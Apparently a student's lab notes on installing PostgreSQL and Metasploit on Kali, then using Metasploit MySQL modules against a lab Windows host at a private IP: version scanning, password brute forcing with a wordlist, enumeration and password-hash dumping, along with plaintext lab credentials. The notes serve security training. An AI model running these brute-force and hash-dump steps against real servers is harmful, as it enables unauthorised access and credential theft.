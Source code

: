 # Section 1: 

- Start PostgreSQL:
  ```bash
  sudo /etc/init.d/postgresql start
  ```
  - Reinstall PostgreSQL if necessary (due to missing database.yml in the directory /usr/share/metasploit-framework/config/database.yml):
    ```bash
    sudo apt install postgresql postgresql
    ```
  - Enable and restart PostgreSQL:
    ```bash
    sudo systemctl enable postgresql
    sudo systemctl restart postgresql
    ```
  - Verify PostgreSQL status:
    ```bash
    sudo systemctl status postgresql
    ```
  - Switch to postgres user and access PostgreSQL:
    ```bash
    sudo su - postgres
    psql -p 5433
    \du   # Check if 'postgres' user exists and is a superuser
    alter user postgres with password 'admin@123';
    \l   # Check for a database named 'postgres'
    
- Start Metasploit
   ```bash
    /etc/init.d/metasploit start # (old method, won't work)
    ```
  - Instead, install Metasploit Framework:
    ```bash
    sudo apt install metasploit-framework
    ```
  -  if **sudo systemctl start metasploit** work do not do the following comands else do this:
      - Verify Metasploit paths:
        ```bash
        which msfconsole
        locate metasploit-framework
        ```
     - Adjust Metasploit service configuration if paths differ:
       ```bash
       sudo nano /etc/systemd/system/metasploit.service
       ```
      <pre>
      ```
      [Unit]
      Description=Metasploit Framework
      After=network.target
      [Service]
      Type=simple
      ExecStart=/usr/local/bin/msfconsole
      User=root
      WorkingDirectory=/usr/local/share/metasploit-framework
      [Install]
      WantedBy=multi-user.target
      ```
      </pre>
  - Now start and check the status of metasploit
    ```bash
    sudo systemctl start metasploit
    sudo systemctl status metasploit
    ```
  - Start Metasploit console and wait for initialization:
    ```bash
    msfconsole
    ```
  - Within the metasploit console run the following:
      - Check database connection status:
        ```bash
        db_status
        ```
      - If not connected, configure database connection:
        ```bash
        db_connect –y /usr/share/metasploit-framework/config/database.yml
        ```
      - Resolve PostgreSQL configuration issues if encountered:

bash
Copy code
sudo nano /etc/postgresql/14/main/postgresql.conf
# Uncomment and adjust lines like:
# listen_addresses = 'localhost'
log_timezone = 'UTC'
TimeZone = 'UTC'

sudo nano /etc/postgresql/14/main/pg_hba.conf
# Ensure lines like:
# local all postgres peer
# local all all peer
# host all all 127.0.0.1/32 md5
Restart PostgreSQL:

bash
Copy code
sudo systemctl restart postgresql
Update Metasploit database configuration:

bash
Copy code
sudo nano /usr/share/metasploit-framework/config/database.yml
Example configuration:

yaml
Copy code
development:
  adapter: postgresql
  database: msf6
  username: msf6
  password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
  host: localhost
  port: 5432
  pool: 5
  timeout: 5
production:
  adapter: postgresql
  database: msf6
  username: msf6
  password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
  host: localhost
  port: 5432
  pool: 5
  timeout: 5
Create PostgreSQL database and user for Metasploit:

bash
Copy code
sudo su - postgres
psql -p 5433
CREATE DATABASE msf6;
CREATE USER msf6 WITH PASSWORD 'RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=';
GRANT ALL PRIVILEGES ON DATABASE msf6 TO msf6;
Restart PostgreSQL and Metasploit:

bash
Copy code
sudo systemctl restart postgresql
sudo systemctl restart metasploit
Reconnect to Metasploit console and continue:

bash
Copy code
msfconsole
db_connect –y /usr/share/metasploit-framework/config/database.yml
Example commands inside Metasploit console:

bash
Copy code
use auxiliary/scanner/mysql/mysql_version
Lab 4: SQL Injection on Windows Server
Install MySQL server on Windows Server.

Open terminal and connect to MySQL:

bash
Copy code
mysql -u root -p
Set up MySQL users and permissions:

sql
Copy code
CREATE USER 'msf6'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';
GRANT ALL PRIVILEGES ON *.* TO 'msf6'@'192.168.43.93';
CREATE USER 'root'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';
GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.43.93';
FLUSH PRIVILEGES;
Back to Kali, execute Metasploit commands:

bash
Copy code
msf6 auxiliary(scanner/mysql/mysql_version)
set RHOSTS 192.168.43.189
run

use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.43.189
set USERNAME root
set PASS_FILE /mouna19/passwords.txt
run
Additional Metasploit MySQL enumeration:

bash
Copy code
use auxiliary/admin/mysql/mysql_enum
set RHOSTS 192.168.43.189
set USERNAME root
set PASSWORD mounaMYSQL19
run

use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS 192.168.43.189
set USERNAME root
set PASSWORD mounaMYSQL19
run
Open another terminal window in Kali for MySQL console access:

bash
Copy code
mysql -u root -p -h 192.168.43.189
Enter the password (e.g., mounamySQL19) to access MySQL console.
